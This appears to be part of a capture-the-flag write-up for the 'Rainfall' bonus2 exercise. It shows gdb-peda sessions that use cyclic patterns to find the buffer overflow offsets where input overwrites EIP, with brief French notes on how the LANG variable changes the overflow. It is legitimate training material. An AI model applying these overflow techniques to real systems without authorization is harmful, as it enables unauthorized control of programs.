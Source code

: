<pre>
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r $(python -c  "print('A' * 200)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
Starting program: /home/alarm/rainfall/bonus2/Ressources/bonus2 $(python -c  "print('A' * 200)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%AAsAABAA$AAnAACAA-AA(AADAA;A

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x4f ('O')
EBX: 0xffffd3b0 ('A' <repeats 43 times>, "%AAsAABAA$AAnAACAA-AA(AADAA;A")
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xffffd3fc --> 0xffffdc6a ("en_US.UTF-8")
EDI: 0xffffd3ac --> 0x1 
EBP: 0x41414441 ('ADAA')
ESP: 0xffffd360 ('A' <repeats 43 times>, "%AAsAABAA$AAnAACAA-AA(AADAA;A")
EIP: 0x800413b
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
<strong>Invalid $PC address: 0x800413b</strong>
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0800413b in ?? ()
gdb-peda$ pattern offset 'A;'
<strong>A; found at offset: 29</strong>
</pre>

- Quand LANG est different en different de NULL alors var_60 est ecrit dans string
- Sauf que vu qu'il y a deja un overide dans le strcpy de l'arg[1] les var_60 et var_38 sont considerer comme un seul argument
<pre>
$> LANG=nl gdb ./bonus2 

gdb-peda$ pattern create 40
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'
gdb-peda$ r $(python -c "print('A' * 40)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'
Starting program: /home/alarm/rainfall/bonus2/Ressources/bonus2 $(python -c "print('A' * 40)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'

Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%AAsAABAA$AAnAACAA-AA(AADAA;A

[----------------------------------registers-----------------------------------]
ESP: 0xffffd4d0 ("DAA;A")
<strong>EIP: 0x41412841 ('A(AA')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41412841
[------------------------------------stack-------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41412841 in ?? ()
gdb-peda$ pattern offset 'A(AA'
<strong>A(AA found at offset: 23</strong>
</pre>
